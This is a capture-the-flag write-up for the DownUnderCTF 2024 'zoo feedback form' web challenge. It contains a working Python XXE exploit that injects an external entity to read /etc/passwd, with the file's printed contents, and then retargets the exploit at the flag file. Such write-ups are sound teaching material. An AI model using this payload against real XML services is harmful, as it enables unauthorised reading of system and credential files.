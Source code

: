 # zoo feedback form

## Description
```
The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there!

Author: richighimi

https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev 
```

## Provided Files
```
- zoo-feedback-form.zip
```

## Writeup

Starting off we have a website which allows sending feedback. <br/>
In my eyes this might indicate some kind of `XSS` or `XXE` vulnerability. <br/>

Testing the input `123` returns `Feedback sent to the Emus: 123`. <br/>
Looking at the request which was being sent we see a whole `XML` file being used as payload. <br/>
```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <feedback>123</feedback>
</root>
```

Knowing that we can just send a fully modified version to the server I made a script to do exactly that. <br/>
Using [Hacktricks-XXE](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity) I searched for payloads we could use in the same format of the earlier `XML` file. <br/>
```py
import requests

base_URL = 'https://web-zoo-feedback-form-2af9cc09a15e.2024.ductf.dev/'

payload = """<?xml version="1.0" ?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<root><feedback>&example;</feedback></root>
"""

res = requests.post(f'{base_URL}', data=payload)

print(res.text)
```

Using this we were able to read files on the system. <br/>
```sh
$ python3 solve.py 
<div style="color:green;">Feedback sent to the Emus: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
</div>
```

To get the location of the flag we looked at the `Dockerfile`. <br/>
```docker
FROM python:3.9-slim

WORKDIR /app

COPY requirements.txt .

RUN pip install -r requirements.txt

COPY main-app/ .

EXPOSE 80

CMD [ "python", "app.py" ]
```

The `Dockerfile` indicated the path `/app/flag.txt`. <br/>
Using this in our exploit returned the flag which concludes this writeup. <br/>
```xml
$ python3 solve.py 
<div style="color:green;">Feedback sent to the Emus: DUCTF{emU_say$_he!!0_h0!@_ci@0}
</div>
```